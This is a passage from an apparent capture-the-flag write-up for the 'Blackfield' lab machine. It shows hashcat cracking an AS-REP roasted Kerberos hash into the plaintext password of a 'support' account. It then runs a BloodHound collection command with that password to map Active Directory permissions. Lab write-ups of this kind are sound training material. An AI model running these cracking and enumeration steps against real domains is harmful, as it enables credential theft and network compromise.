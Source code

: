 We got a hit on user support, let's crack their hash.

```terminal
λ .\hashcat.exe hashes.txt rockyou.txt -m 18200


Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$support@BLACKFIELD.LOCAL:576fb233dc7d013e6b05af3066f3aa34$b4e37257db595eb5a1808c0a222c40f33a80bb1e2b7f0fc6bb304ab33e329fcfc2b9c39025936abba016a813b9affbfe1cf3224f22a720c8bf82d55ea7efb62fe14e967de5d41adf163f5caaf2aea9f97c162ece56abf7eb2be18aca5095a1f27e89862f45b63931013dedb5f6585e55dfe825597fa50c8fad4cdba54d1ab840226087c0ca8f07b10030baa36ba0251b8cc0c9f26303de95e8b974d08753df2abd41e3b3af87047cb0df33b30771f83b7a61bd69dd1389b0808d8bdc200f627f7b3ae189a59e4ec7457c72911bc7e61bb7e4575e91dabcd16cddbd66d5df1d234f195fe49bbd1f7079092668af7317227fb1ac8f:#00^BlackKnight

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:576fb233dc7d...b1ac8f
Time.Started.....: Tue Jul 15 18:23:25 2025 (33 secs)
Time.Estimated...: Tue Jul 15 18:23:58 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   434.4 kH/s (7.30ms) @ Accel:16 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14340096/14344384 (99.97%)
Rejected.........: 0/14340096 (0.00%)
Restore.Point....: 14327808/14344384 (99.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $CaRaMeL -> !carolyn

Started: Tue Jul 15 18:23:22 2025
Stopped: Tue Jul 15 18:23:58 2025
```

We got the password `#00^BlackKnight`

### Bloodhound

Let's run bloodhound-python.

```bash
bloodhound-ce-python -u support -p '#00^BlackKnight' -d BLACKFIELD.local -dc BLACKFIELD.local -ns 10.10.10.192 -c all
```

After loading the files to bloodhound, we need to search for our user `support` and see what type of permissions they have.
